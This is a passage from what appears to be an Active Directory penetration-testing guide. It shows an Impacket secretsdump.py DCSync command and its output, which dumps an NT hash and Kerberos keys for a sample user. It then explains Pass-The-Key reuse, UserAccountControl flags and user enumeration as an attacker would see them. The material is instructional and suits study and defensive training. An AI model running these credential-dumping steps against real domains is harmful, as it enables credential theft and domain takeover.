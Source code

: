 ```
secretsdump.py 'contoso.local/Administrator@192.168.100.2' -just-dc-user anakin
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
contoso.local\anakin:1103:aad3b435b51404eeaad3b435b51404ee:cdeae556dc28c24b5b7b14e9df5b6e21:::
[*] Kerberos keys grabbed
contoso.local\anakin:aes256-cts-hmac-sha1-96:ecce3d24b29c7f044163ab4d9411c25b5698337318e98bf2903bbb7f6d76197e
contoso.local\anakin:aes128-cts-hmac-sha1-96:18fe293e673950214c67e9f9fe753198
contoso.local\anakin:des-cbc-md5:fbba85fbb63d04cb
[*] Cleaning up...
```

These keys can be used in a **Pass-The-Key (INSERT LINK TO Pass-The-Key)** attack to retrieve a ticket for the impersonated user. Then you can use that Kerberos ticket to authenticate against different services of the domain on behalf of the user.

### **UserAccountControl & Other user properties**

One interesting property of the user class is the [UserAccountControl](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) (UAC) (do not confuse it with the User Account Control mechanism to avoid executing elevated programs in Windows machines).

The UserAccountControl property contains a **series of flags** that are very relevant for the security and the domain and used in many attacks mentioned in this book.&#x20;

To see the most interesting properties from an attacker's perspective on users, you can refer to the following resource:

INSERT LINK TO: User Properties Summary

## Important Users

To consult the users there are several options, like the `net user /domain` command, or Powershell. There is no need to have an special privilege to list users, any user can do it.&#x20;

More commands to enumerate the users of a domain can be found in the following resource (section "**Enum Domain Users**"):

{% content-ref url="../ad-enumeration-cheat-sheet.md" %}
[ad-enumeration-cheat-sheet.md](../ad-enumeration-cheat-sheet.md)
{% endcontent-ref %}

In a test environment (such as a CTF), there will be few users, but in a real engagement there will be hundreds or thousands of users. So it should be important to distinguish which are the really important ones. This could be a little tricky since it depends on the organization, but usually members of the IT team use to have privileged users, they need it to do their work.

Moreover, by default the **built-in** `Administrator` **user is the most privileged account of the domain**. It can perform any action in any computer. So if you are able to compromise this account, you can have total control of the domain (and even the forest by using [the SID history attack](https://adsecurity.org/?p=1640)).
